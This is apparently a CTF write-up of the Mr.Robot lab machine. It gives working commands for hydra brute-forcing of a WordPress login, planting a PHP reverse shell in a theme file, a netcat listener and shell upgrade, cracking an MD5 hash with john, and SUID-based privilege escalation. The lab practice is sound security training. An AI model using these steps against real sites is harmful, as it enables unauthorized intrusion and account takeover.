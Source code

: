 Mr.Robot CTF
===

### environment
KALI Linux ip 10.10.228.21

TARGET 10.10.106.11
###   Hack the machine

- [x] key1
First,use nmap to confirm which port is open

```
nmap -sV -sC 10.10.106.11
```

We know that port 80 443 is open, we can check port 80 and 443 .

http://10.10.106.11,we got like hacker command line interface,but that just say why Mr.Robo hacker billionaire.

![image](https://user-images.githubusercontent.com/67756786/193573386-bd27b73e-8e9c-4a41-bf71-262b67a0d4ac.png)

I think that can use nmap to scan http

```
nmap -p80 --script http-enum 10.10.106.11
```
![image](https://user-images.githubusercontent.com/67756786/193574089-ea48f301-ba26-4d90-8287-97e9561c9ad3.png)

We got some page information,first,I visit robots.txt.

I got one dictionary and key1

![image](https://user-images.githubusercontent.com/67756786/193574635-83e789b6-4bca-492a-9951-6fe1d4451809.png)

- [x] key2

I sort dictionary and purge same word.

```
sort fsocity.dic | uniq > fsocity.dic.uni
```

Originally there have 800000 more word, but remain 10000 more word after sort.

![image](https://user-images.githubusercontent.com/67756786/193575699-9e38693f-ea5c-4c2d-893e-6270e4d6541d.png)
![image](https://user-images.githubusercontent.com/67756786/193575822-6868847e-e833-4678-89be-9952ae8af6ff.png)

check wordpress version,press F12 and search ver,we know wordpress version is 4.3.1

![image](https://user-images.githubusercontent.com/67756786/193729112-0f6e00f9-82c0-4d86-b939-bbefd77e3dd6.png)

wordpress has user enumeration exploit,if wrong user will print invaild username.

![image](https://user-images.githubusercontent.com/67756786/193732070-2e9655b1-dc9c-46a2-bb0a-f3f4080f97b3.png)

Now we can use burp suite to intercept WP login request.


![image](https://user-images.githubusercontent.com/67756786/193734649-924974cd-c922-495d-8aef-b8ec9ef0b0ac.png)



We can use hydra to brute force username,and we got username Elliot.

```
hydra -L fsocity.dic.uniq -p password 10.10.168.7 http-post-form -t 30 '/wp-login.php:log=^USER^&pwd=^password^&wp-submit=Log+In:Invalid username'
```

![image](https://user-images.githubusercontent.com/67756786/193734975-7d2cef62-364d-469e-ab78-7aacfae83126.png)

Next try password,use same dictionary to crack password.

```
hydra -l Elliot -P fsocity.dic.uniq 10.10.168.7 http-post-form -t 30 '/wp-login.php:log=^USER^&pwd=^password^&wp-submit=Log+In:The password you entered'
```
IF I hadn't sort the dictionary , that could been wait for a long time.

Now got pw is ER28-0652

I upload php reverse shell to 404.php(appearance->editor->404.php)
php reverse shell source code.
(https://github.com/pentestmonkey/php-reverse-shell)

![image](https://user-images.githubusercontent.com/67756786/193764939-d7e21dc5-24e6-4d0b-b819-6b647658cb33.png)

kali listen to 1234,and url paste 10.10.195.36/404.php.

```
nc -lvnp 1234
```

Now got reverse shell,and use pty 

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
press Ctrl + z
stty raw -echo; fg
press twice Enter
```
![image](https://user-images.githubusercontent.com/67756786/193771566-23cc7cab-0073-464e-8b33-e8db6df45c27.png)

cd to /home ,and use ls to confirm user

```
cd /home
ls
```

![image](https://user-images.githubusercontent.com/67756786/193771931-613113da-5cf5-4b1c-afad-3b6e7d12fc8a.png)

into robot ,after we got key2 but Permission denied.

![image](https://user-images.githubusercontent.com/67756786/193772149-c3944d0c-2515-4839-8ee5-feda2d983899.png)

Now confirm password.raw-md5

![image](https://user-images.githubusercontent.com/67756786/193772294-2723582e-4844-4ad6-a5ad-dd8119204a48.png)

We can use john to crack that,dictionary use rockyou.txt

robot's hash password save to hash.txt for john.

```
john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt   hash.txt
```

![image](https://user-images.githubusercontent.com/67756786/193775597-1769c5b9-ca88-4750-9467-cb523654e582.png)

Now, login by robot,and confirm key2

![image](https://user-images.githubusercontent.com/67756786/193776151-851a1845-6b42-4ae0-8c97-66d2f2623de3.png)

. [x] key3

key3 under the root directory.
Fist I confirm robot's privillege. Robot is common user not super user.

![image](https://user-images.githubusercontent.com/67756786/193777451-e8cbdbc7-e0bc-4136-9b4b-9a5638da1da8.png)

So we need privilege escalation.Fisrt, I try linpeans but not work.Second, I find SUID file to privilege escalation.

```
find / -perm -u=s -type f 2>/dev/null
```

![image](https://user-images.githubusercontent.com/67756786/193778841-d5360896-d57f-4dea-9594-dd39a1e6a6ab.png)

Hint say namp , so we confirm namp privilege escalation from GFTOBins.

![image](https://user-images.githubusercontent.com/67756786/193779436-78d850ac-203c-4e96-91f8-bbe7b2167973.png)

Check nmap version

![image](https://user-images.githubusercontent.com/67756786/193779509-f7bed3a7-43d7-4ef0-baeb-4447a9fb87fa.png)

It's work!

![image](https://user-images.githubusercontent.com/67756786/193779671-9b27d506-df96-482d-8b14-e1b6cbc07d87.png)

cat key3

![image](https://user-images.githubusercontent.com/67756786/193779863-81afcb87-d9a0-43ce-9c25-392535e58111.png)

